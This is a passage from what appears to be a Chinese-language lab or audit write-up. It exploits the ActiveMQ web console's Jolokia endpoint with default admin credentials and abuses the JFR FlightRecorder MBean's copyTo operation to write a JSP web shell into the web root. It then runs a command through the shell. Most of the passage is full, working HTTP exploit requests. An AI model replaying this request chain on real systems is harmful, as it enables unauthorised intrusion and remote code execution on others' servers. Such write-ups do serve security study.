Cookie: JSESSIONID=pmgr5nmbcazq10lptyiipck8b
Connection: close
Origin:http://192.168.240.130
Content-Length:138

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "stopRecording",
    "arguments": [1]
}
```



5. 导出录制

```
POST /api/jolokia HTTP/1.1
Host: 192.168.240.130:8161
Authorization: Basic YWRtaW46YWRtaW4=
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=pmgr5nmbcazq10lptyiipck8b
Connection: close
Origin:http://192.168.240.130
Content-Length:159

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "copyTo",
    "arguments": [1,"./webapps/admin/shell.jsp"]
}
```



6. 访问http://192.168.240.130:8161/admin/shell.jsp?cmd=whoami



# 三、总结

1. 了解了项目的一般调试方法
2. 强化了审计能力

2026/4/13-10:48